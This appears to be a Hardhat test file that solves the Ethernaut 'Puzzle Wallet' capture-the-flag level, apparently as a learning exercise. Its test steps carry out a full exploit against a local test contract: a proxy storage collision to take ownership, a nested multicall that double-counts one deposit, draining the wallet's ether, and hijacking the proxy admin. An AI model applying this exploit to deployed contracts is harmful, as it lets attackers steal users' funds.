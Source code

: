 ```typescript
    expect(await puzzleWallet.maxBalance()).to.be.gt(0);
  });

  context("Attack", () => {
    it("propose new admin for proxy, it should update owner for wallet", async () => {
      await puzzleProxy.proposeNewAdmin(hacker.address);
      // @NOTE: You are the owner already. This is Proxy! Do you like it? 🤪
      expect(await puzzleWallet.owner()).to.be.equal(hacker.address);
    });

    it("add hacker in whitelist", async () => {
      // @NOTE: You are the owner of the wallet now, do everything wanted freely.
      await puzzleWallet.connect(hacker).addToWhitelist(hacker.address);
      expect(await puzzleWallet.whitelisted(hacker.address)).to.be.equal(true);
    });

    it("manipulate hacker balance to be double", async () => {
      // @NOTE: Overall, you are gonna deposit twice with 1 ether. Basically it seems not allowed, but...
      // construct calldata for deposit
      const data1 = puzzleWallet.interface.encodeFunctionData("deposit");
      // construct calldata for multicall with deposit calldata, which will break the twice deposit restriction
      const data2 = puzzleWallet.interface.encodeFunctionData("multicall", [
        [data1],
      ]);
      // execute multicall with two calldatas, you will see a miracle! 🤐
      await puzzleWallet.connect(hacker).multicall([data1, data2], {
        value: oneETH,
      });
      // check your balance
      // @NOTE: Your balance is 2, but you did deposit only 1 ether.
      expect(await puzzleWallet.balances(hacker.address)).to.be.equal(
        oneETH.mul(2)
      );
    });

    it("drain all ether out from the wallet", async () => {
      // @NOTE: The wallet had 1 ether before you manipulated your balance.
      // Your balance is now 2 ether, but the wallet has 2 ether, not 3 ether. Thank angel 😇
      await puzzleWallet
        .connect(hacker)
        .execute(hacker.address, oneETH.mul(2), "0x");
      // The wallet balance should be 0
      expect(
        await ethers.provider.getBalance(puzzleWallet.address)
      ).to.be.equal(0);
    });

    it("set maxBalance again, it should finally change the admin of the proxy", async () => {
      // @NOTE: Now you have all the conditions satisfied, you can set maxBalance.
      // The real purpose of the long journey. That is to change maxBalance, which is the admin essentially.
      // The real vulnerability of delegatecall. 🤓
      await puzzleWallet
        .connect(hacker)
        .setMaxBalance(BigNumber.from(hacker.address));
      expect(await puzzleProxy.admin()).to.be.equal(hacker.address);
      // @NOTE: You completely hijacked the wallet.
    });
  });
});
```